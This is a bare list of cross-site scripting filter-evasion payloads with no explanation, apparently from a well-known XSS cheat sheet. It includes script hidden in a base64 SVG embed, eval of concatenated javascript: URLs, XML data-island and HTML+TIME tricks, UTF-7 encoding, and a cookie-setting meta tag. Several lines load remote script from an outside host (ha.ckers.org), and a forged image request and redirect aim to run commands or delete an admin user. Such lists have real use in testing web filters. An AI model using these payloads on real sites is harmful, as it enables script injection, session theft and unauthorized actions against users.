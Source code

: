 	<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>

	a="get";
	b="URL(\"";
	c="javascript:";
	d="alert('XSS');\")";
	eval(a+b+c+d);

	<HTML xmlns:xss>
	  <?import namespace="xss" implementation="http://ha.ckers.org/xss.htc">
	  <xss:xss>XSS</xss:xss>
	</HTML>

	<XML ID=I><X><C><![CDATA[<IMG SRC="javas]]><![CDATA[cript:alert('XSS');">]]>
	</C></X></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>

	<XML ID="xss"><I><B>&lt;IMG SRC="javas<!-- -->cript:alert('XSS')"&gt;</B></I></XML>
	<SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>

	<XML SRC="xsstest.xml" ID=I></XML>
	<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>

	<HTML><BODY>
	<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
	<?import namespace="t" implementation="#default#time2">
	<t:set attributeName="innerHTML" to="XSS&lt;SCRIPT DEFER&gt;alert(&quot;XSS&quot;)&lt;/SCRIPT&gt;">
	</BODY></HTML>

	<SCRIPT SRC="http://ha.ckers.org/xss.jpg"></SCRIPT>

	<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://ha.ckers.org/xss.js></SCRIPT>'"-->

	<? echo('<SCR)';
	echo('IPT>alert("XSS")</SCRIPT>'); ?>

	<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">

	Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser

	<META HTTP-EQUIV="Set-Cookie" Content="USERID=&lt;SCRIPT&gt;alert('XSS')&lt;/SCRIPT&gt;">

	<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-

	<SCRIPT a=">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>

	<SCRIPT =">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>

	<SCRIPT a=">" '' SRC="http://ha.ckers.org/xss.js"></SCRIPT>

	<SCRIPT "a='>'" SRC="http://ha.ckers.org/xss.js"></SCRIPT>

	<SCRIPT a=`>` SRC="http://ha.ckers.org/xss.js"></SCRIPT>
